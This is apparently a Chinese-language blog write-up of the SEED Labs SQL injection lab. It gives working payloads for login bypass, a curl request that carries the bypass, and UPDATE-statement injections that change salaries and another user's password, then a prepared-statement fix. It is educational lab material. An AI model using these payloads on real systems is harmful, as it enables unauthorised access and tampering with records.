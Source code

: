 ```yaml
---
layout: protected
title: "SQL Injection Attack Lab"
date: 2024-04-30
categories: [SEED Labs, Web Security]
tags: [SQL-Injection]
---
```


# SQL Injection Attack Lab

# Lab Setup

我用的是mac M2芯片，所以要去官网下载arm64版本，然后启动docker。

# Task 1: Get Familiar with SQL Statements

使用SQL语句查询Alice：

```sql
select * from credential where Name='Alice';
```

# Task 2: SQL Injection Attack on SELECT Statement

## Task 2.1: SQL Injection Attack from webpage

username把后边的内容注释掉，注意’--’后边要加一个空格否则不会被识别为注释：

```sql
Admin';-- 
```

## Task 2.2: SQL Injection Attack from command line

用URL编码好，然后使用curl指令：

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%3B--%20&Password='
```

## Task 2.3: Append a new SQL statement

把Admin改成J3rry：

```sql
Admin'; update credential set name='J3rry' where id=6;-- 
```

注入失败，这是因为’mysqli::query()’不允许多个语句执行。

# Task 3: SQL Injection Attack on UPDATE Statement

## Task 3.1: Modify your own salary

注意到phonenumber在sql查询的最后，所以用单引号闭合然后修改salary，把后面的注释掉：

```sql
', salary='99999' where name='Alice';-- 
```

## Task 3.2: Modify other people’ salary

Alice是个狠人：

```sql
', salary='1' where name='Boby';-- 
```

## Task 3.3: Modify other people’ password

还是和上边一样，直接在Password里边填入新密码，然后再phonenumber里边填入sql注入语句：

```sql
', where name='Boby';-- 
```

然后用新密码登陆Boby。

# Task 4: Countermeasure — Prepared Statement

预处理阶段在编译阶段和执行阶段之间，他只接受SQL语句中的数据部分，然后发送给执行阶段。因为数据中的内容没有经历编译阶段，所以即使数据中有SQL语句也不会被执行的。

比如下边这段代码，用’?’代表数据位置，先把编译好的SQL语句发过去，然后再把数据发过去，其中’is’的意思是，第一个数据的类型是int——’i’，第二个是string——’s’。

```php
$stmt = $conn->prepare("SELECT name, local, gender
FROM USER_TABLE
WHERE id = ? and password = ? ");
// Bind parameters to the query
$stmt->bind_param("is", $id, $pwd);
$stmt->execute();
$stmt->bind_result($bind_name, $bind_local, $bind_gender);
$stmt->fetch();
```

可以看到SQL注入仍然成功：

```sql
Admin';-- 
```

把源码修改为预处理语句：

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= ? AND Password= ?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);

$stmt->execute();
$result = $stmt->get_result();
```

此时SQL注入就失效了。